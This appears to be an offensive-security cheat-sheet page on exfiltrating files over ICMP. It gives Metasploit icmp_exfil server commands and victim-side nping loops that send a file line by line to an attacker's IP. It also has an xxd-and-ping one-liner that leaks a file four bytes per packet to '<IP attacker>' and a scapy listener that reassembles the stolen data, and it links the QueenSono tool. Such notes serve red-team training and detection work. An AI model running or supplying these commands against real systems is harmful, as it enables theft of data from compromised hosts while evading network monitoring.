 # ⭕ ICMP

## ICMP Exfiltration Service (Metasploit)

{% embed url="http://www.nocowsecurity.com/blog/2013/5/30/icmp-exfiltration" %}

This module is designed to provide a server-side component to receive and store files exfiltrated over ICMP echo request packets

```
msf > use auxiliary/server/icmp_exfil
msf auxiliary(icmp_exfil) > show actions
    ...actions...
msf auxiliary(icmp_exfil) > set ACTION < action-name >
msf auxiliary(icmp_exfil) > show options
    ...show and set options...
msf auxiliary(icmp_exfil) > run
```

on victim side:

```
nping --icmp <IP address of Metasploit server> --data-string ^BOF -c1
for /f "tokens=*" %%a in (<filename>) do nping --icmp <IP address of Metasploit server> --data-string "%%a\x0D" -c1
nping --icmp <IP address of Metasploit server> --data-string ^EOF -c1
sed 's/\\x0D/\n/g' <filename>
```

{% embed url="https://youtu.be/y_qBPaKdU7U" %}

## QueenSono

{% hint style="info" %}
* only work on Linux (due to the use of golang net icmp package)
* need `cap_net_raw capabilities`
{% endhint %}

{% embed url="https://github.com/ariary/QueenSono" %}

## Ping

```
#In order to exfiltrate the content of a file via pings you can do:
xxd -p -c 4 /path/file/exfil | while read line; do ping -c 1 -p $line <IP attacker>; done
#This will 4bytes per ping packet (you could probably increase this until 16)
```

```
from scapy.all import *
#This is ippsec receiver created in the HTB machine Mischief
def process_packet(pkt):
    if pkt.haslayer(ICMP):
        if pkt[ICMP].type == 0:
            data = pkt[ICMP].load[-4:] #Read the 4bytes interesting
            print(f"{data.decode('utf-8')}", flush=True, end="")

sniff(iface="tun0", prn=process_packet)
```
